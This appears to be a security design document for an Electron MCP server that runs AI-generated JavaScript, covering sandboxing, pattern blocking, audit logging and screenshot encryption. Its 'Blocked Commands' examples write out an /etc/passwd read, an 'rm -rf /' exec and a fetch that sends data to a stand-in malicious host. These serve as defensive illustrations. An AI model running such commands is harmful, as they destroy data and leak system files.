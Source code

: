 # Security Implementation

This document describes the security measures implemented in the Electron MCP Server to ensure safe execution of AI-generated commands.

## 🛡️ Security Features

### 1. Code Execution Isolation
- **Sandboxed Environment**: All JavaScript code execution is isolated using a secure Node.js subprocess
- **Resource Limits**: 
  - Maximum execution time: 5 seconds
  - Memory limit: 50MB
  - No filesystem access unless explicitly needed
  - No network access by default
- **Global Restriction**: Dangerous globals like `process`, `require`, `fs` are disabled in the sandbox

### 2. Input Validation & Sanitization
- **Static Analysis**: Commands are analyzed for dangerous patterns before execution
- **Blacklisted Functions**: Blocks dangerous functions like `eval`, `Function`, `require`, etc.
- **Pattern Detection**: Detects potential XSS, injection, and obfuscation attempts
- **Risk Assessment**: All commands are assigned a risk level (low/medium/high/critical)
- **Command Sanitization**: Dangerous content is escaped or removed

### 3. Comprehensive Audit Logging
- **Encrypted Logs**: All execution attempts are logged with encrypted sensitive data
- **Metadata Tracking**: Logs include timestamps, risk levels, execution times, and outcomes
- **Security Events**: Failed attempts and blocked commands are specially flagged
- **Performance Metrics**: Track execution patterns for anomaly detection

### 4. Secure Screenshot Handling
- **Encryption**: Screenshot data is encrypted before storage
- **User Notification**: Clear logging when screenshots are taken
- **Data Minimization**: Screenshots are only stored temporarily
- **Secure Transmission**: Base64 data is transmitted over secure channels

## 🚨 Blocked Operations

The following operations are automatically blocked for security:

### Critical Risk Operations
- Direct `eval()` or `Function()` calls
- File system access (`fs`, `readFile`, `writeFile`)
- Process control (`spawn`, `exec`, `kill`)
- Network requests in user code
- Module loading (`require`, `import`)
- Global object manipulation

### High Risk Patterns
- Excessive string concatenation (potential obfuscation)
- Encoded content (`\\x`, `\\u` sequences)
- Script injection patterns
- Cross-site scripting attempts

## ⚙️ Configuration

Security settings can be configured via environment variables:

```bash
# Encryption
SCREENSHOT_ENCRYPTION_KEY=your-secret-key-here
```

## 📊 Security Metrics

The system tracks various security metrics:

- **Total Requests**: Number of commands processed
- **Blocked Requests**: Commands blocked due to security concerns
- **Risk Distribution**: Breakdown by risk levels
- **Average Execution Time**: Performance monitoring
- **Error Rate**: Failed execution percentage

## 🔍 Example Security Validations

### ✅ Safe Commands
```javascript
// UI interactions
document.querySelector('#button').click()

// Data extraction
document.getElementById('title').innerText

// Simple DOM manipulation
element.style.display = 'none'
```

### ❌ Blocked Commands
```javascript
// File system access
require('fs').readFileSync('/etc/passwd')

// Code execution
eval('malicious code')

// Process control
require('child_process').exec('rm -rf /')

// Network access
fetch('http://malicious-site.com/steal-data')
```

## 🛠️ Development Guidelines

When extending the MCP server:

1. **Always validate input** before processing
2. **Log security events** for audit trails
3. **Test with malicious inputs** to verify security
4. **Follow principle of least privilege**
5. **Keep security dependencies updated**

## 📝 Security Audit Trail

All security events are logged to `logs/security/` with the following information:

- Timestamp and session ID
- Command content (encrypted if sensitive)
- Risk assessment results
- Execution outcome
- User context (if available)
- Performance metrics

**Note**: This security implementation provides strong protection against common threats, but security is an ongoing process. Regular security audits and updates are recommended.
